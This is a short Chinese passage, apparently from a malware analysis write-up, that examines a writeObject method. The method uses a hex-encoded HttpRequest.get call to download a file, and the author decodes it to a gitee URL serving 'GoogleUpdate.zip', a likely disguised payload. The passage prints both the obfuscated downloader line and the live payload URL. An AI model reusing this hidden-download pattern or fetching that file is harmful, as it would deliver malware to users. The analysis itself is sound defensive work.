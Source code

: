 ![图片](assets/1711884809-02b07d5fb7fee98c05cd5669eae392b9.png)

仔细观察这个 writeObject，发现他使用 com.github.kevinsawicki.http.HttpRequet.get 去下载了一个文件

```plain
HttpRequest.get(hexStringToString("68747470733a2f2f67697465652e636f6d2f666f786b696e673030372f666f7872617069642d6b696e672f6174746163685f66696c65732f3637313939372f646f776e6c6f61642f476f6f676c655570646174652e7a6970")).receive(new File(hexStringToString2));
```

本地实现一下这个 hexStringToString  

解码内容如下

![图片](assets/1711884809-c49700f7f913c1236ee73c2bc386bad2.png)

```plain
https://gitee.com/foxking007/foxrapid-king/attach_files/671997/download/GoogleUpdate.zip
```
